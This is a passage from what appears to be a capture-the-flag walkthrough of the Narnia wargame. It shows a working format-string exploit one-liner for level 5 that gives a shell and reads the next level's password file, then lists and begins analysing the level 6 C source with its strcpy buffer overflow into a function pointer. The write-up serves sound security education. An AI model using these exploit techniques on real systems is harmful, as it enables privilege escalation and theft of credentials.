 {{< highlight console >}}
narnia5@melinda:/narnia$ ./narnia5 $(python -c "print '\xcc\xd6\xff\xff'+'%x'*3 + '%472d' + '%n'")
Change i's value from 1 -> 500. GOOD
$ whoami
narnia6
$ cat /etc/narnia_pass/narnia6
[password]
{{< / highlight >}}

## Level 06 ##

{{< highlight c "linenos=table" >}}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

extern char **environ;

// tired of fixing values...
// - morla
unsigned long get_sp(void) {
       __asm__("movl %esp,%eax\n\t"
               "and $0xff000000, %eax"
               );
}

int main(int argc, char *argv[]){
	char b1[8], b2[8];
	int  (*fp)(char *)=(int(*)(char *))&puts, i;

	if(argc!=3){ printf("%s b1 b2\n", argv[0]); exit(-1); }

	/* clear environ */
	for(i=0; environ[i] != NULL; i++)
		memset(environ[i], '\0', strlen(environ[i]));
	/* clear argz    */
	for(i=3; argv[i] != NULL; i++)
		memset(argv[i], '\0', strlen(argv[i]));

	strcpy(b1,argv[1]);
	strcpy(b2,argv[2]);
	//if(((unsigned long)fp & 0xff000000) == 0xff000000)
	if(((unsigned long)fp & 0xff000000) == get_sp())
		exit(-1);
	fp(b1);

	exit(1);
}
{{< / highlight >}}

In this rather complicated looking listing we notice a few things:

* line 17 is a function pointer to `puts`
* line 33 calls the function `fp` points to
* line 31 prevents `fp` from pointing to anything in our frame
